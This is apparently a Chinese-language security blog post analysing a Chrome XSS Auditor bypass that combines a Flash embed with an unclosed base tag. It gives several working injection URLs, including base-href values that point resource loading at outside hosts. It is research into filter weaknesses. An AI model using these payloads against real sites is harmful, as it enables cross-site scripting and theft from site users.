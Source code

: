 ```yaml
---
date: 2025-08-01T22:26:13+08:00
title: 利用Flash和base标签绕过XSS Auditor的技术分析
tags: [XSS, Chrome, Flash, 安全漏洞]
authors: qife
description: 本文详细分析了如何通过结合Flash和未闭合的base标签来绕过Chrome浏览器的XSS Auditor防护机制，展示了具体攻击向量和绕过条件，对理解XSS防护机制缺陷具有重要参考价值。
---
```


# 利用Flash和base标签绕过XSS Auditor

几天前，我正在和Mario一起研究如何绕过Chrome的XSS Auditor。Mario发现了这个绕过方法：

[XSS Auditor Bypasses 05.2016](https://t.co/c9UcjpDZZM)

我也发现了另一个绕过方法。在这篇文章中，我想分享我的攻击向量。



## 攻击向量

```
https://vulnerabledoma.in/xss_auditortest?test=1&q=<embed+allowscriptaccess=always+src=/xss.swf><base+href=//l0.cm/

<div><embed allowscriptaccess=always src=/xss.swf><base href=//l0.cm/</div>
```

让我们来看看这个绕过方法的实现过程。

## 分析过程

1. 直接使用`<embed>`标签加载外部资源会被拦截：
```
https://vulnerabledoma.in/xss_auditortest?test=1&q=<embed+src=https://evil/>

<embed src=https://evil/>
```

2. 但是加载同源且没有查询字符串的资源不会被拦截：
```
https://vulnerabledoma.in/xss_auditortest?test=1&q=<embed+src=/aaa>

<embed src=/aaa>
```

3. 如果我们能改变基础URL，就有可能实现XSS攻击。base标签通常也会被拦截，但如果它没有用`>`闭合，在某些情况下Auditor不会拦截。

以下情况会被拦截：
```
https://vulnerabledoma.in/xss_auditortest?test=3&q=<base+href=//evil/

<div><base href=//evil/ </div>
```

但以下情况不会被拦截：
```
https://vulnerabledoma.in/xss_auditortest?test=1&q=<base+href=//evil/

<div><base href=//evil/</div>
```

区别在于前者在注入点后有一个空格。看起来如果页面在注入点后直接有空格，Auditor会拦截。换句话说，如果页面在注入点后没有直接的空格，我们就可以注入base标签而不被拦截。

因此，我的攻击向量有效！

## 其他绕过方法

如果注入点后有空格，我们还有机会绕过。如果注入点下方存在`"`字符，我们可以使用未闭合的属性引号来绕过Auditor，如`<base href="//evil/`。

以下情况不会被拦截：
```
https://vulnerabledoma.in/xss_auditortest?test=4&q=<embed+allowscriptaccess=always+src=/xss.swf><base+href="//l0.cm/

<div>
<embed allowscriptaccess=always src=/xss.swf><base href="//l0.cm/
</div><div id="x">AAA</div>
```

这个绕过方法很有用，因为大多数页面在注入点下方都有`"`字符。

另外，`<script src=/xss.js></script><base href=//evil/`也不会被拦截。但我们无法加载外部资源，因为在设置base URL之前就开始加载了：
```
https://vulnerabledoma.in/xss_auditortest?test=1&q=%3Cscript%20src=/xss.js%3E%3C/script%3E%3Cbase%20href=//evil/
```

因此，我使用了Flash来实现攻击。

## 总结

这就是全部内容。感谢阅读我的文章！